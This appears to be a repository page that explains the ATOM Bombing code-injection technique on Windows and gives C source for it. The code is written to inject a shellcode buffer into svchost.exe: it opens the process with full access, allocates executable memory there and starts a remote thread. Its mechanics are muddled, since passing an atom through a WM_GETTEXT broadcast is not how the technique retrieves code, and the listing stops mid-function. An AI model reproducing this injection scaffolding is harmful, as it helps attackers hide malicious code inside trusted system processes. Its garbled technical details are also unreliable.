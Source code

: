 ATOM Bombing is a code injection technique that leverages the global ATOM table, a feature provided by Windows for storing strings and corresponding identifiers. An attacker can use the ATOM table to write malicious code and then force a legitimate process to retrieve and execute it.

```
#include <windows.h>
#include <stdio.h>

int main() {
    ATOM atom;
    DWORD processID;
    HANDLE hProcess;
    HANDLE hThread;
    LPVOID remoteBuffer;

    // Sample shellcode for demonstration purposes
    char shellcode[] = {
        // ... Your shellcode goes here ...
    };

    // Register the shellcode in the global ATOM table
    atom = GlobalAddAtomA(shellcode);
    if (!atom) {
        printf("Failed to add shellcode to ATOM table.\n");
        return 1;
    }

    // Assuming you've already obtained the PID of svchost.exe
    printf("Enter the PID of svchost.exe: ");
    scanf("%d", &processID);

    // Open the target process
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    if (!hProcess) {
        printf("Failed to open target process.\n");
        return 1;
    }

    // Allocate memory in the target process
    remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!remoteBuffer) {
        printf("Failed to allocate memory in target process.\n");
        CloseHandle(hProcess);
        return 1;
    }

    // Force the target process to retrieve the shellcode from the ATOM table
    if (!SendMessageA(HWND_BROADCAST, WM_GETTEXT, sizeof(shellcode), (LPARAM)remoteBuffer)) {
        printf("Failed to send message to target process.\n");
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread in the target process to execute the shellcode
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (!hThread) {
        printf("Failed to create remote thread in target process.\n");
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }
```